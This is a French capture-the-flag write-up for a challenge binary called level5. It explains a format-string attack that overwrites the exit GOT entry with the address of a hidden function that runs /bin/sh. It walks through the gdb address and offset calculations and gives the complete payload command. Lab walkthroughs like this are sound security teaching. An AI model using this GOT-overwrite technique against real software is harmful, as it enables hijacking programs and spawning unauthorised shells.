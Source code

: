 # Format String Exploitation

En deecompilant l'exécutable, on se rend compte qu'il fait appel à la fonction `printf` puis, dans un second temps, à `exit`. On remarque aussi la présence d'une fonction `o` qui n'est jamais appelée et qui semble lancer un appel `system` avec `"/bin/sh"` en argument.

L'objectif est donc d'utiliser `printf` pour tenter d faire appel à la fonction `o`. La solution que nous avons trouvé est de remplacer l'adresse de la fonction `exit`, par l'adresse  de la fonction `o`.

Il nous faut d'abord trouver l'adresse de ces deux fonctions. En utilisant `gdb`, on exécute :
```
> gdb level5
[...]
```

---
**Adresse de `o`**

```
> (gdb) x o
0x80484a4 <o>:	0x83e58955
```
L'adresse de la fonction `o` est `0x80484a4`

**Adresse de `exit`**

Pour trouver l'adresse de `exit`, on va trouver l'endroit ou le programme y fait appel.
```
> (gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	    push   %ebp
   0x080484c3 <+1>:	    mov    %esp,%ebp
   0x080484c5 <+3>:	    sub    $0x218,%esp
   0x080484cb <+9>:	    mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
`call` étant une instruction raccourcie, on va désassembler cette instruction :
```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	    jmp    *0x8049838
   0x080483d6 <+6>:	    push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
On remarque que ce `call` fait un `jump` à l'adresse `0x8049838`, qui est en fait l'adresse de `exit`.

L'adresse de `exit` est donc `0x8049838`.

---

À chaque utilisation de la faille `format string`, il est important de connaitre l'emplacement mémoire exact où `printf` écrit pour exploiter cette écriture.

Pour cela, on `break` sur l'instruction suivant l'appel à `printf`.
```
> (gdb) b *0x080484f8
[...]
```
On `run` puis on fourni en entrée standard 4 caractères `A` ainsi que `%1$p` qui vas nous permettre d'imprimer le premier argument de `printf`.
```
> (gdb) r
AAAA%p
AAAA0x200
```
Nous savons donc que le contenu du premier argument de `printf` est `0x200`. 

Nous allons maintenant determiner à quelle adresse a été écrite notre chaine de caractère par rapport au premier argument de `printf`.
```
printf_offset = adresse_buffer - adresse_1er_argument
```

---

**Adresse du premier argument**

En imprimant les premiers registres depuis `esp`, on est capable de retrouver notre premier argument affiché par notre `printf` précédement.
```
> (gdb) x/10wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
                        ^
                        1er argument
0xbffff510:	0x70243125	0xb7e2000a	0x00000001	0xb7fef305
0xbffff520:	0xbffff578	0xb7fde2d4
```
Notre premier argument est donc stocké à l'adresse de `esp+0x04`.
```
> (gdb) x $esp+0x04
0xbffff504:	0x00000200
```
L'adresse du premier argument est `0xbffff504`.

**Adresse du `buffer`**

L'adresse du buffer est contenue dans le premier registre pointé par `esp`.
```
> (gdb) x $esp
0xbffff500:     0xbffff510
> (gdb) x 0xbffff510
0xbffff510:	    0x41414141
```
L'adresse du `buffer` est `0xbffff510`.

--- 

On peut donc remplacer les inconnues de notre équation :
```
printf_offset = adresse_buffer - adresse_1er_argument
              = 0xbffff510 - 0xbffff504
              = 0xc
              = 12 (base 10)
```
On divise notre résultat par `4` car chaque registre contient 4 octets. Puis on ajoute `1` pour pointer sur notre `buffer` :
```
12 / 4 + 1 = 4
```
Nous allons devoir utiliser le `4ème` argument de `printf`.

On reprend ensuite la même logique que le `level3`. De manière abstraite, voici comment nous allons construire notre commande :
```
[adresse_exit] [adresse_o - 4] [%4$n]
^              ^
4 octets       adresse_o
               octets
```

Nous écrivons l'adresse de `exit` avec la notation `little-endian` :
```
\x38\x98\x04\x08
```
Nous pouvons écrire un grand nombre de caractère sans risquer un `overflow` grace au modifier `%d`. Donner un nombre en modifier à `%d` permet d'imprimer un `buffer` qui ne sera pas stocké dans la stack.
```
adresse_o = 0x080484a4
          = 134513828
```
On retire `4` en raison des `4` octets affichés précédement.
```
134513828 - 4 = 134513824
```
```
%134513824d
```
Enfin on indique à `printf` d'imprimer le nombre de caractère écrit à l'adresse de `exit` avec le modifier `%n`. L'adresse de `exit` étant stockée dans le `4ème` argument :
```
%4$n
```
Notre chaine de caractères à envoyer au programme sera la suivante :
```
"\x38\x98\x04\x08" + "%134513824d" + "%4$n"
```
On exécute donc :
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/command
```
```
cat /tmp/command - | ./level5
```
